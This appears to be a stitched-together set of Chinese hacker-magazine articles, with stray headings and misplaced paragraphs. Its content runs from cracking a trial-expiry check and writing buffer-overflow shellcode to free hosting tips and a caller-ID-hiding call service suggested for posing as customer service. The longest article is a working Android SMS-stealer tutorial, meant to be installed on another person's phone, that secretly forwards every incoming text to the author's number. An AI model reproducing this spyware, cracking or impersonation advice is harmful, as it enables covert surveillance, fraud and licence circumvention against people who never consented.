Ctrl+F9执行到返回，然后一路F8来跟踪。当OD执行到00402692处的时候弹出了提示框，这里是一句call。

```asm
00452D7F  56               push esi
00452D80  57               push edi
00452D81  8B7C24 10        mov edi, dword ptr [esp+10]
00452D85  8BF1             mov esi, ecx
00452D87  85FF             test edi, edi
00452D89  75 08            jnz short 00452D93
00452D8B  E8 978D0000      call 0045BB27
00452D90  8B78 10          mov edi, dword ptr [eax+10]
00452D93  E8 A88A0000      call 0045B840
00452D98  85F6             test esi, esi
00452D9A  75 04            jnz short 00452DA0
00452D9C  33C0             xor eax, eax
00452D9E  EB 03            jmp short 00452DA3
00452DA0  8B46 1C          mov eax, dword ptr [esi+1C]
00452DA3  FF7424 14        push dword ptr [esp+14] ; Style
00452DA7  57               push edi                 ; Title
00452DA8  FF7424 14        push dword ptr [esp+14] ; Text
00452DAC  50               push eax                 ; hOwner
00452DAD  FF15 3CC64600    call dword ptr [<&USER32.MessageBoxA>] ; MessageBoxA
00452DB3  5F               pop edi
00452DB4  5E               pop esi
```

## 主题乐园

```asm
004520D5  \..   C2 0C00        retn 0C
```

这句代码用来格式化字符串，然后弹出提示。我们再往刚才那个call上边看几句，就会注意到这样的代码：

```asm
00402615   B9 32000000    mov ecx,32
0040261A   2BCF           sub ecx,edi
0040261C   898E 78030000  mov dword ptr [esi+378],ecx
00402622   8D4C24 2C      lea ecx,dword ptr [esp+2C]
00402626   E8 58FC0300    call 00442283
0040262B   8B86 78030000  mov eax,dword ptr [esi+378]
00402631   C64424 24 01   mov byte ptr [esp+24],1
00402636   3BC3           cmp eax,ebx
00402638   7D 10          jge short 0040264A
```

我们可以看到这里的代码就是用来判断的了。我们看这里最后一句的条件跳转语句，只有天数大于等于0的时候软件才可以用，所以我们必须要使这里的跳转实现。这样的话我们只要把这一句修改为绝对跳转jmp就可以了，修改后保存，然后运行一次，结果如图13，也提示我们还有-134天可用。

图13

## 缓冲区溢出（六）Shellcode编写

前面我们简单地讲了一下溢出的原理，在前面的试验中我们向进程植入了一段代码，这段代码我们就可以称它为Shellcode。

Shellcode编写技术实际是一段代码（也可以是填充数据），是用来发送到服务器利用特定漏洞的代码，一般可以获取权限。另外，Shellcode一般是作为数据发送给受攻击服务的。Shellcode是溢出程序和蠕虫病毒的核心，提到它自然就会和漏洞联想在一起，毕竟Shellcode只对没有打补丁的主机有用武之地。漏洞利用中最关键的是Shellcode的编写。由于漏洞发现者在漏洞发现之初并不会给出完整Shellcode，因此掌握Shellcode编写技术就显得尤为重要。

了解了这些以后我们先来看一个简单的Shellcode。一般来说Shellcode都是用汇编语言编写的，然后转化成二进制机器码，还会受到很多限制，导致开发Shellcode的难度很高。

我们还记得上节课说过，溢出的关键就在于控制EIP寄存器。EIP寄存器指向下一句即将执行的代码，正常情况下，函数返回时会遇到retn指令，等于pop eip，这时会从栈里弹出一个数据放到EIP寄存器里。在这里，因为溢出，栈里的数据都被我们修改了，我们就可以自己任意定义EIP寄存器的值。但是当时我们把返回地址修改为一个固定地址，这里就是Shellcode在内存中的地址，最后EIP寄存器就会被修改为这个地址。但是在真正的漏洞利用过程中，因为很多原因，Shellcode的地址不是固定的，是动态变化着的，这样我们就不能在程序运行前预知Shellcode的地址。这时我们可以从系统DLL中搜索一句代码“jmp esp”，这里的代码地址一般来说是不会变的，把返回地址改写成“jmp esp”的地址，然后在后面写上我们的Shellcode。这样，执行完retn指令以后EIP就会指向“jmp esp”的地址，然后就会跳去执行“jmp esp”，而堆栈指针ESP会往下走，这时EIP会指向ESP指向的Shellcode开始处，程序继续执行，就正好跳到我们的Shellcode的地方了。

OD有一个插件叫做OllyUni，可以查找内存里各种指令的地址，如图1。这样我们先来看看这样的Shellcode。

```asm
"\x33\xDB"    XOR EBX,EBX
```

还是用上节课的溢出代码：

```c
#include "stdio.h"
#include <windows.h>

int main()
{
    char buffer[0x30];
    FILE *fp;
    fp = fopen("rejector.txt", "r");
    fscanf(fp, "%s", buffer);
    fclose(fp);
    return 0;
}
```

我们把这些机器码按照16进制的方式写入“rejector.txt”文件，并且把返回地址对应的位置修改为刚才在OD中查找到的地址“75FF63E8”，如图2。保存后，运行一下程序，如图3，可以看到成功弹出一个对话框，如图4，这说明我们的溢出代码被执行了！

```asm
"\x53"                         PUSH EBX
"\x68\x73\x74\x6F\x72"         PUSH 73746F72
"\x68\x72\x65\x6A\x65"         PUSH 72656A65
"\x8B\xC4"                     MOV EAX, ESP
"\x53"                         PUSH EBX
"\x50"                         PUSH EAX
"\x50"                         PUSH EAX
"\x53"                         PUSH EBX
"\xB8\xEA\x04\xD8\x77"         MOV EAX, user32.MessageBoxA
"\xFF\xD0"                     CALL EAX
"\x53"                         PUSH EBX
"\xB8\xDA\xCD\x81\x7C"         MOV EAX, kernel32.ExitProcess
"\xFF\xD0"                     CALL EAX
```

## 比收费空间更好的免费空间——000webhost

### 免费空间

000webhost是Hosting24旗下的网站，自称比收费虚拟主机更好的免费空间。2007年开站至今，它的口碑也确实不错。免费提供1500M空间、100G月流量、FTP、Web方式上传管理文件，支持PHP5，提供2个MySQL数据库，功能强大的cPanel管理面板，自带的Website Builder可一键安装WordPress、phpBB2、Drupal、Joomla等几种热门PHP程序，免费提供1个二级域名，可以绑定自己的域名，速度不错，无广告。

这个空间是笔者迄今为止用过的最稳定最快速的空间了，非常适合架设自己的WP博客，因此推荐给大家。但这个空间目前在中国很难申请，本文就简单介绍一下笔者成功申请该空间的经验。

打开网站 www.000webhost.com 后，再点击右侧的SIGN UP按钮，填写相关信息，E-mail不推荐用QQ邮箱，推荐Gmail，如图1。

上一步完成后，你会发现你的账户一直处于Verification in progress的状态。这是因为中国大陆申请的人太多了，来自China的IP被列为低优先级的IP。因此如果你有自己的VPN或者个人专用的代理服务器（比如GAppProxy搭建的），笔者也推荐你用代理来申请，很快就能通过，但这会带来其他问题，过会儿我会说到。

账户一直处于审核状态该怎么办呢？

- 点击页面上方的GET HELP，再点击Submit new ticket。
- 点击“please select the domain”下面的选择框，选择自己的域名。
- 在下面的第一个框填上自己的题目：“I need your help to active my account”。
- 然后在第二个框里写上一些东西让客服知道你的目的就行，我是这么写的：“I really love your services. I agree to terms of service and my webspace will be a personal blog using Wordpress. Can you active the account? Thank you.”

大家记住，只要写几句简单的话，但要确保语法正确，不要用在线翻译工具，最好能够赞美下他们的服务，如图2。

这样的成功率很高，过个几个小时（考虑时差为6到8个小时），你就会收到他们客服的E-mail，提醒你已经启用了你的账户。此时你的域名显示为setup in progress，正在安装你的系统。再等24小时基本上就安装完成了，此时就可以看见Goto CPanel的选项，点击就进入CPanel，设置FTP和MySQL，并且按需要上传你的WordPress等等了（这部分内容建议参考以前的黑客X档案，有非常详细的教程）。这个Control Panel提供的服务非常丰富，如图3。笔者架设好的WP是 http://hq1993.comyr.com ，大家可以访问一下试试速度，如图4。

接着回过来讲一讲用代理服务器申请会遇到的问题。首先网页代理肯定是不行的，因为全中国就这么几个，用的人太多了，无法通过，所以要使用个人的VPN或者其他代理（GAP等），这样很容易完成账户的验证；但一旦你下次登录时忘记挂代理，它会封锁你的账号。此时千万不要挂代理重新登录，只需要点击Update my IP address，很快你就会收到一份邮件，如图5，点击里面的长链接更新你的IP就可以了。代理是很方便的做法，唯一的不足是，有一定的可能将你的域名分配到已经被墙的服务器上，相信大家一定不愿意自己写个博客都要翻墙吧。因此，具体使用什么方法，各位就看着办啦！

## SugarSync——基于云计算的免费5G网盘

SugarSync是来自美国加利福尼亚州的Sharpcast网络存储公司的产品，提供了5.5G免费网络硬盘空间（可以通过推荐朋友注册来增大自己的免费空间），具有数据自动备份、同步、分享等功能，可以非常方便地将你指定的目录同步到你的SugarSync网盘中。相信了解DropBox或Syncplicity的朋友都知道这类工具的作用了。

与大名鼎鼎的Dropbox不同的是，SugarSync可以在不使用代理服务器的情况下直接上传下载（也就是说，它没有被“墙”），这样一来，备份数据就比Dropbox快而且方便了。SugarSync和DropBox一样之处就在于，当你编辑文件或者改变了目录文件结构时，所有改动将会自动备份到网络上去。

SugarSync的存储空间非常稳定可靠、安全，并具有一定的文件分享功能。

注册过程非常简单，只要三步：

- 首先访问 http://tinyurl.com/sugarsync2011 ，填写必要的信息（如图1），邮箱可以使用QQ邮箱，但务必有效以激活账户。
- 第二步选择免费服务（如图2）。
- 继续会提示下载适合自己平台的同步软件（如图3），并且会向你的邮箱发送一封确认邮件；确认后即完成注册，这样就可以用你的账户登录了（如图4）。

申请成功后，你还会获得一个yourname.sugarsync.com格式的个人域名。你可以使用这个域名登录，在线管理你同步的文件，这样就实现了在任何一台能接入互联网的电脑上方便存取重要文件（如图5）。

值得一提的是，SugarSync在某些地区注册是需要翻墙访问的，但在使用客户端上传和下载文件时并不需要设置代理（这与Dropbox不同）。因此，如果注册时发现网页打不开，不妨翻阅以前的黑客X档案，傻瓜黑客栏目中笔者有不少文章介绍翻墙的方法。

## 藏宝插图

接下来安装它的同步软件——SugarSync。它不仅支持Linux，还支持Windows/Mac PC/iPhone/iTouch/BlackBerry/Windows Mobile/Android，几乎任何平台的设备都可进行访问。笔者正在同时使用PC端、Android版和iTouch版，PC端的功能非常强大，iTouch版则非常华丽而实用（可以方便地将手机的照片同步到SugarSync上去，也能下载SugarSync上的文件或者通过邮件发送给朋友，这不是DropBox做得到的）。SugarSync安装非常简单，一路下一步即可（如图6）。

安装完成后就可以使用激活的账户登录，简单设置同步文件夹，SugarSync就会在后台自动上传文件。笔者现在用SugarSync同步自己的照片、程序源代码、稿子、PPT作品和QQ聊天记录（如图7）。配合Dropbox共同使用，笔者从不担心硬盘坏了文件丢失。有了SugarSync，文件存取变得安全而快捷，而且在不同的电脑上都能随时拿到需要的东西，这便是云计算的魅力所在（如图8）。

如果大家对申请和使用SugarSync有任何疑问，欢迎到我在X论坛上的小组中讨论：http://www.hackerxfiles.net/forum.php?mod=group&fid=88。

## 隐藏来电号码免费电话500分钟

wtbhk

近日闲逛又发现一款网络免费电话，激动不已，与诸君共享。

这次的主角是通通网（http://www.665.cn/），一个比价情报网购平台，可能是营销推广吧，推出了这个免费电话功能。笔者试用三个月没扣一分钱，大可放心。

打开通通网，注册账号一枚。注册过程要填邀请码，如果看得起我就写上 wtbhk 吧，嘿嘿。后面的内容都简单，填着走就是了。注意手机号务必真实，后面绑定要用到。

注册好后点击“会员中心”，到左侧“话务管理”-“设置绑定号码”（如图1）。点“获取验证码”，手机会收到短信，填写并提交即可。


图1

绑定成功后可在“账户基本信息”里看到赠送5元话费（虚拟话费）（如图2）。说明为“注册送50元话费，话费分10个月送，每月送5元，从注册日期开始计算”，再看通通网话费计算（如图3），折算下来非常划算。

- 打电话三种方式可供选择：
  1. 网页上拨打：“话务管理”里的“在线拨打号码”，填好被叫号码后点击拨打。
  2. 手机拨打：需要 iPhone 下载 Fring 软件连上通通网。
  3. WAP 网页拨打：与电脑网页拨打类似，访问 http://wap.665.cn/ 按流程操作即可。

隐藏来电从何说起？拨打流程是：网页/WAP 发起后，通通网先拨“回铃电话”（注册时填的号码），接起后再拨“被叫电话”，双方接通即可通话。由于是通通网主叫，主被叫号码都会被叫系统处理，来显通常为空或为较长虚拟号段。


图2

| 软件拨打 | 网页拨打 | 手机WAP拨打 |
|---|---|---|
| 0.06元/分 | 0.10元/分 | 0.10元/分 |

图3

免费电话通话质量虽略低于普通通话，但基本不影响使用。想整蛊或伪装客服的可以试试。

## 免光驱装系统，我用“大白菜”！

年晓东

大家应该都还记得上世纪末 3.5 英寸软驱在启动系统及存储文件方面的汗马功劳吧？但时过境迁，即使是后来的光驱也难免走上“鸡肋”之路。很多新机器将位置留给了 USB 移动U盘和 SSD 固态硬盘。现在 U 盘主流容量 4GB 甚至 8GB，如果只用来存储办公文件显得太“屈才”了；其实，我们完全可以将 U 盘做成可以启动和安装操作系统的工具盘——进行免光驱安装系统，而所使用的软件也非常简单，那就是“大白菜”！

“大白菜”的全名是“大白菜U盘启动制作工具V1.8精简版.exe”，下载之后直接双击进行软件的安装，非常简单，选择安装的目标文件夹后点击“下一步”按钮（可以跳过“设置515.net导航”设置）即可。然后将 U 盘插入，再双击运行安装好的“大白菜U盘启动制作工具V1.8精简版”，此时就会在运行界面下方的“请选择U盘...”处显示出已经插入的 U 盘的信息——“H:（厂商：Generic，产品：Flash Disk，版本号：8.00，序列号：）”，其后的“USB-HDD”选项保持默认即可。然后点击“一键制成USB启动盘”按钮（如图1），“大白菜”会提示我们“本操作将破坏U盘原有数据，且不可恢复。还要继续本操作吗？”，所以一定要记得提前将 U 盘的文件都备份好。接着，“大白菜”就开始了 U 盘启动系统的制作过程，用不了几分钟就会提示我们“恭喜你，制作完成！”。


图1

其实经过这一步的操作已经完成了启动式 U 盘的处理，通过点击第二个“U盘启动项配置”按钮进入“仅供专业人士”使用的“启动项高级管理”窗口，将“菜单名称”及“ISO文件路径”均设置好之后，点击“添加”按钮即可在 U 盘启动菜单中添加相关的选项（如图2）。还有，第三项“归还U盘空间”按钮所提供的功能是将生成的 U 盘恢复为空白 U 盘，因为被添加了“大白菜”启动功能之后的 U 盘上增加了若干隐藏的文件（大约是 1GB 左右）。


图2

如何使用这个“大白菜”超级 U 盘呢？非常简单，就像将光驱设置为第一启动项一样，在机器的 CMOS 开机菜单中将 U 盘设置为第一启动项，对应的是“USB HDD”之类的名称。接着将这个 U 盘插入待修复机器的 USB 接口，开机，很快就会进入“大白菜”超级 U 盘的启动菜单（如图3），包括“运行Windows PE（系统安装）”、“DISKGEN2010分区工具”、“运行深山红叶DOS工具箱”、“进入硬件维护工具菜单”和“运行Windows登录密码破解”、“运行一键还原系统”、“启动本机VISTA/2008/Windows 7系统”等诸多选项均在其中，当然也包括我们手工添加的 ISO 文件对应菜单选项。一般情况下，本着“治病救人”的原则，如果机器的系统未被完全破坏的话（比如仅仅是丢失了几个关键系统文件），我们可以选择第一项“运行Windows PE（系统安装）”，进入“大白菜”集成的 Windows Server 2003PE 系统进行修复——桌面上已经提供了包括“一键安装克隆版系统”、“原机器驱动提取”、“WIN系统安装器”和“手工克隆安装”、“数据恢复工具”、“系统密码破解”等实用工具（如图4）。


图3


图4

在这个功能齐全的“大白菜”超级 U 盘的帮助下，相信各种系统恢复和安装工作都不会难倒我们了，大家不妨一试。

（文中涉及的“大白菜U盘启动制作工具V1.8精简版”本期光盘已收录）

## Android 的手机短信窃听器开发实践

黑酷

现在智能手机越来越多，目前市场上的智能手机的操作系统大概分为 Symbian、Windows Mobile、Linux、Palm、Mac OS，还有最新的 Android 和 OMS。虽然现在智能手机的功能越来越丰富了，但是在智能手机的安全方面还存在很多不足，即使现在已经有了一些智能手机杀毒软件，但是仍不能全面地保证智能手机的安全。下面我给大家介绍一下如何通过编程的方法来实现窃听别人手机的短信——手机短信窃听器。

### 一、准备工作

首先，要开发基于 Android 操作系统的手机短信窃听器，就必须要搭建一个 Android 软件开发环境，我采用的开发环境主要包括如下工具：

- Java 的 IDE 开发工具——Eclipse
- Java 开发包——Java SE Development Kit（JDK）JDK 6
- Android 开发包——Android SDK
- Android 开发插件（ADT-plugin）

安装过程中或许有一点慢，因为需要联网去下载各个版本的 SDK，下载速度和你的网速有关。如果你想快一点的话，可以仅下载你所需要版本的 SDK。我开发这个手机短信窃听器的程序是基于 2.2 版本，所以你最少下载 2.2 版本的 SDK。

### 1.1 环境搭建步骤如下：

##### A、JDK 的安装

首先，我们先安装 JDK。可到  
http://cds-csd.sun.com/ESD6/JSCDL/jdk/6u23-b05/jdk-6u23-windows-i586.exe  
这个网站上下载 JDK，下载以后进行安装，安装步骤很简单，一直点“下一步”即可，如（图1）。


##### B、SDK 的安装

下面安装 Android 开发包——Android SDK。我们可以到 Google 的官方网站下载，但是在国内官方下载地址打不开，我们可以到 http://www.android123.com.cn/ 这个网站上去下载。下载完后会得到一个压缩包，把这个压缩包解压之后会看到这样几个文件，如（图2）。

然后，运行“SDK Manager.exe”进行 Android SDK 的安装。


我安装的时候是选择所有版本下载的，在“Choose Packages to Install”菜单点击“Accept All”，然后再点击“Install”就完成了（图3）。如果你只下载 2.2 版本的话，在 Packages 栏里的“SDK Platform Android 2.2, API 8, rev ...”然后点击下面的“Install”进行安装即可。

##### C、Eclipse 和 ADT 插件的安装

安装完 SDK 以后，下面我们再安装 Java 的 IDE 开发工具——Eclipse。要安装 Eclipse，首先要到 www.eclipse.org 这个网站去下载最新版本的 Eclipse，解压即可。

下面安装 ADT，首先启动安装完的 Eclipse 目录下的 Eclipse.exe，点击菜单“Help”->“Install New Software...”，在 Install 菜单里 Work with 的右边加入以下地址：“https://dl-ssl.google.com/android/eclipse/”，选“Developer Tools”，选择它下面所有的插件，然后点击“NEXT”（图4）。Eclipse 此时会从加入的地址中自动下载并安装 ADT，稍等一会，安装完毕后，提示需要重启 Eclipse，点击完成，重启 Eclipse。

重启 Eclipse 之后运行 ADT 的时候，若显示无法打开此菜单，这时候我们需要配置一下：首先，点击“Window”->“Preferences”->“Android”，然后在 SDK Location 的右边填写上你安装 SDK 的路径，然后点“OK”（图5）即可完成 ADT 的安装和配置。

安装完 ADT 以后，必须创建一个 Android 虚拟机。首先，点击 Eclipse 工具栏里的 ADT 图标，然后点 New，在 Name 的右边随便写几个非常好记的名字，在 Target 的右边随便选上一个版本，我选择的版本是 2.2，因为这是最新的版本。然后在 SDcard 的右边写上手机的 SDcard 的大小，我写的是 256，我认为 256 应该够了。然后在下面的 Built-in 的右边选择 HVGA，最后点击下面的 Create AVD，如（图6、7）。


### 1.2 手机短信窃听器的原理如下：

上面写的是建立 Android 开发环境，下面介绍一下手机窃听器的功能。手机短信窃听器的功能就是当你把手机窃听器的软件发送到别人的 Android 操作系统手机上并安装以后，那个人接收到的短信都会给指定的号码转发过去。

知道了短信窃听器的功能，下面说说短信窃听器的原理：当系统接收到短信的时候，会发出一个 action 名称为 `android.provider.Telephony.SMS_RECEIVED` 的广播 Intent，这个意图存放了接收到的短信内容。通过名称“pdus”可以从 Intent 中获得短信内容，然后再把这些短信内容的格式改成短信的格式，最后再发送给指定的手机号。

### 二、编写代码

在建立好环境和了解短信窃听器原理的基础上，下面通过编程来实现短信窃听器的功能。

### 2.1 广播接收者简介：

我们在正式开写 Android 的手机短信窃听器之前必须知道什么是广播接收者。广播接收者（BroadcastReceiver）用于异步接收广播 Intent，广播 Intent 的发送是通过调用 `Context.sendBroadcast()`、`Context.sendOrderedBroadcast()` 或者 `Context.sendStickyBroadcast()` 来实现的。通常一个广播 Intent 可以被订阅了此 Intent 的多个广播接收者所接收。

- 要实现一个广播接收者，方法如下：
  - 第一步：继承 BroadcastReceiver，并重写 onReceive() 方法。
  - 第二步：订阅感兴趣的广播 Intent，订阅可以用以下方法。

```java
public class IncomingSMSReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        // ...
    }
}
```

在 AndroidManifest.xml 文件中的 `<application>` 节点里进行订阅：

```xml
<receiver android:name="IncomingSMSReceiver">
    <intent-filter>
        <action android:name="android.provider.Telephony.SMS_RECEIVED"/>
    </intent-filter>
</receiver>
```

### 2.2 核心功能代码编写：

下面我们就利用广播接收者来编写一个短信窃听器。首先建立一个 Android 工程项目，我们在 “New Android project” 菜单中的 “Project name” 里写上新建工程的名字，然后在 “Build Target” 里面选一个 Android SDK 的版本，然后在 “Properties” 栏里 “Application name” 框中写一个应用程序名，然后在 “Package name” 框中写一个包名（包名的格式一般是“作者名+程序名”），然后在 “Create Activity” 框中写一个 Activity 的名，这个程序不需要这个界面，所以在后面就要把它删掉。在 “Min SDK Version” 的框中写上你所选的最小 SDK 版本，要与 API 的版本相对应，最后点击 “Finish” 即可完成 Android 项目的创建，如（图8）。

在项目创建完成后需把 Activity 删掉，操作步骤是：在 AndroidManifest.xml 里把有关 Activity 的代码删掉，如（图9）。


接下来我们建立一个广播接收者，右键项目中的 “src” 目录，选择 “New” 菜单中的 “Class” 来创建一个类。

在“New Java Class”窗口中，“Name”框中写上广播接收者的类名，然后在“Superclass”的后面点击“Browse...”，选“android.content.BroadcastReceiver”来继承广播接收者父类，最后点击“Finish”完成广播接收者的创建。（图10）

下面开始编写核心功能代码，首先在 src-->SmsListener.java 中编写如下代码：

```java
Bundle bundle = intent.getExtras();

if (bundle != null) {
    Object[] pdus = (Object[]) bundle.get("pdus");
    SmsMessage[] messages = new SmsMessage[pdus.length];
    for (int i = 0; i < pdus.length; i++) {
        messages[i] = SmsMessage.createFromPdu((byte[]) pdus[i]);
    }
}
```

这段代码的意思是判断这条意图是不是为空，如果意图存在，那么通过 bundle.get 函数在意图中得到 pdus 的内容信息。但是所得的这条信息的格式不是我们想要的，然后通过 SmsMessage.createFromPdu 函数把 pdus 格式转换成短信格式。

```java
SmsManager manager = SmsManager.getDefault();
for (SmsMessage msg : messages) {
    String content = msg.getMessageBody();
    String sender = msg.getOriginatingAddress();
    Date date = new Date(msg.getTimestampMillis());
    SimpleDateFormat format = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
    String time = format.format(date);
    String text = time + ":" + sender + ":" + content;
    manager.sendTextMessage("15...", null, text, null, null);
}
```

这段代码的意思是创建一个名为 manager 的短信管理器，通过 SmsManager.getDefault() 函数得到 Android 默认的短信管理器并赋值给 manager，因为下面要用 manager 发送短信给指定的手机号。然后通过 msg.getMessageBody() 函数获得短信内容并赋值给 content，再通过 msg.getOriginatingAddress() 函数获得短信来源（发送者的手机号）地址并赋值给 sender，再通过 msg.getTimestampMillis() 函数获得短信接收时间赋值给 date，然后通过 format.format 函数将 date 格式转换为字符类型并赋值给 time，将时间、发送地址还有信息内容合并赋值给 text，最后通过 manager.sendTextMessage 函数将这条信息发送给被指定的手机号码。

### 2.3 核心配置如下：

然后是订阅广播意图的步骤：在 res-->AndroidManifest.xml 里，在 `<application>` 标签的下面把这几段代码写上：

```xml
<receiver android:name=".SmsListener">
    <intent-filter>
        <action android:name="android.provider.Telephony.SMS_RECEIVED"/>
    </intent-filter>
</receiver>
```

这段代码是订阅接收短信的广播意图。当手机接收到短信的时候，系统就会发出一个名为“android.provider.Telephony.SMS_RECEIVED”的广播意图，当这个意图与我们订阅的意图匹配时，就会执行我们编写的代码。

下面我们还需要为程序增加权限。可以在 AndroidManifest.xml 里使用 `<uses-permission>` 标签来实现权限的添加。

```xml
<uses-permission android:name="android.permission.RECEIVE_SMS"/>
```

这条代码是允许收到短信的权限，这条代码起到了能接收到短信的作用。如果不写这个权限，那么我们的程序就无法接收到短信了。

```xml
<uses-permission android:name="android.permission.SEND_SMS"/>
```

文章中都已经在文中讲解过了。由于这个软件有一定的危害性，在这里我就不提供完整的项目工程了。在光盘中我会提供编译好的程序，如果大家想试一下的话，可以把我提供的编译好的程序传到真实的手机试验一下，感兴趣的朋友也可以通过反汇编进行逆向分析。


这是允许程序发送 SMS 短信的权限。如果不加这个权限，那么窃听器就没法将窃听到的信息发送给我们了，所以必须加这个权限。

### 三、编译测试

现在终于大功告成了。完成了所有代码的编写，现在我们将代码编译一下，并使用虚拟机测试一下效果，看看这个好不好用。编译测试的方法很简单（图11）：右键窃听器工程目录，选择“Run As”——>“1 Android Application”进行编译调试。

我们的试验方法是：将短信窃听者安装在 5554 上，短信窃听者功能是将 5554 接收到的短信发给 5556。然后我们用 5558 给 5554 发短信，那么短信窃听者就会偷偷地把这个短信发送给 5556，效果如图（12）。

到这里我们已经完成了短信窃听者开发的全过程；如果大家有不明白的地方，可以与我联系进行交流。我的 QQ 是 664933772，欢迎大家和我一起学习、一起进步。


## 今夜太无聊了，来娱乐下吧

各位整天写微博，难免有时会无聊吧！那就来娱乐下吧！去哪玩？当然还是微博了。不知道各位知不知道有个微博应用呢？就在微博的上方。（图1）

## 微博插件


### 一、认识

根据腾讯的介绍：腾讯微博开放平台为广大开发者提供开放接口，可构建丰富多样的应用。你的应用能从微博获取海量资讯，或将信息传播到千万级用户的平台中，得到营销推广机会。提供开放的数据分享和传播服务，加上你的智慧，将创造无穷的功能与乐趣。


### 二、开玩

腾讯微博的应用虽然不算多，但也不少。我们就看几个精品吧！

- 1. **测测你是哪种蔬菜吧**
  - 测试你是什么蔬菜，简单的问题帮你更好地认识自己。
  - 应用地址：`http://good.ci123.com/app/qq/QQ`（文中说明授权后可查看结果，见图2、图3）。

- 2. **美图秀秀超能力测试（强力推荐）**
  - 输入名字，看看你的“超能力”。
  - 应用地址：`http://8.app.meitu.com/`（见图4）。

- 3. **微博估值**
  - 腾讯微博首款在线价值评估型人气应用，可实现娱乐化互动与分享。
  - 应用地址：`http://qq.shejiao.com`（见图5）。

- 4. **三国杀Q版形象照**
  - 可查看自己和好友的三国杀 Q 版形象照。
  - 应用地址：`http://www.51by.com/app/sgs/`（见图6）。


腾讯微博还有很多好玩的应用，因为篇幅有限，不能为大家一一介绍了，剩下的就让大家自己发现了。